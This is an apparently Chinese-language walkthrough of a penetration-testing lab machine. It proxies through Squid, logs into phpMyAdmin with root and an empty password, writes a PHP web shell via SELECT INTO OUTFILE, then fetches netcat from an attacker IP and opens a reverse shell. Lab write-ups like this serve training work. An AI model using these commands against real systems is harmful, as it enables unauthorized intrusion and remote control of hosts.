# 信息收集

## nmap



## 3128端口-Squid



```
python3 spose.py --proxy http://192.168.239.189:3128 --target 192.168.239.189
```

使用 HTTP 代理方法检测 squid 代理后的开放端口



方法8080端口和3306端口需要通过squid的代理，需要配置一层上层代理



然后就可以正常访问到页面了



## squid代理的8080端口

8080端口主页面是默认页面，通过squid的代理去扫8080端口的目录，得到phpmyadmin页面的phpsysinfo



`phpmyadmin`是默认密码，用户名为`root`，密码为空



# getshell

想要通过写文件getshell，当前数据库用户就得拥有写权限，可以通过该命令查看，如果secure_file_priv如果非空，则只能在对应的目录下读文件，如果是空即可在其他目录写。

```
show variables like '%secure%';
```

当前情况是空，可以在任意文件夹下，现在就需要知道web服务的绝对路径

查看当前日志文件目录，mysql服务实在wamp下的，所以猜测web服务是在wamp/www下



```
select '<?php phpinfo();?>' into outfile "C:\\wamp\\www\\shell1.php"
```

写入之后就可以成功访问到shell1.php





然后尝试写入后门



可以命令执行，并且直接是system权限，最后反弹shell即可



上传nc，并且使用nc反弹shell

```
powershell wget http://192.168.45.167:80/nc64.exe -outfile nc.exe

C:\wamp\www\nc.exe -e cmd 192.168.45.167 80
```



想偷懒的话可以直接读取proof.txt，查看的时候需要点击选项其中的显示BLOG内容

